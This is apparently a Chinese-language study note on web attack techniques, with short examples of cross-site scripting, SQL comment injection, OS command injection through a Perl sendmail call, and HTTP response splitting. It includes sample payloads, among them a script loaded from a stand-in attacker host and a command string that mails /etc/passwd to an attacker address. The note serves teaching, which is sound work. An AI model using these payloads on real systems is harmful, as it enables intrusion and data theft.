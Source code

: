 # Web 攻击技术

## 因输出值转义不完全而引发的安全漏洞

### 跨站脚本攻击 | Cross-Site Scripting | XSS

* 跨站脚本攻击依赖动态脚本注入
1. 将输入动态插入 html 中
```js
  <input type="text" id="username" name="username" />
  document.getElementsByTagName("body")[0].innerHTML = username;
  // username ===> "<script>alert(document.cookie)</script>
```
2. URI 查询字符串插入 表单
```js
  // url ===> www.example.com/login?ID=yama
  // ID ===> "><script>alert(document.cookie)</script><span s="
  <form>
    ID <input type="text" value="ID"/>
  </form>
```
3. 动态插入 js 文件
```js
  <script src="http://hack.cn/xss.js"></script>
  // xss.js
  alert(document.cookie);
```

### SQL 注入攻击

1. SQL | -- 后均为注释
```js
  const url = 'http://example.com/search?q=村上春树' // 原本 
  const url = 'http://example.com/search?q=村上春树 -- ' // 注入攻击 
```
```SQL
  SELECT * FROM library WHERE author = '村上春树' and flag = 1
  SELECT * FROM library WHERE author = '村上春树' -- and flag = 1
```

### OS 命令注入攻击

1. web 启动 os 命令发送邮件
```bash
  my $adr = $q->param('mailaddress');
  open(MAIL, "| /usr/sbin/sendmail $adr");
  print MAIL "From: info@example.com\n";
```
```bash
  # 攻击代码 "; cat /etc/passwd | mail hack@example.cn"
  "| /usr/sbin/sendmail ; car /etc/passwd | mail hack@example.cn"
```

### HTTP 首部注入攻击 | HTTP Header Injection

1. http 响应截断攻击

```html
  <!-- 插入两个换行符 达到改变报文主体的目的
       url 中 %0D%0A 会被解析成回车换行
       Location: http://example.com/?cat=101(%0D%0A: 换行符)
  -->
  %0D%0A%0D%0A<HTML><HEAD><TITLE>想要显示的内容<!--
```

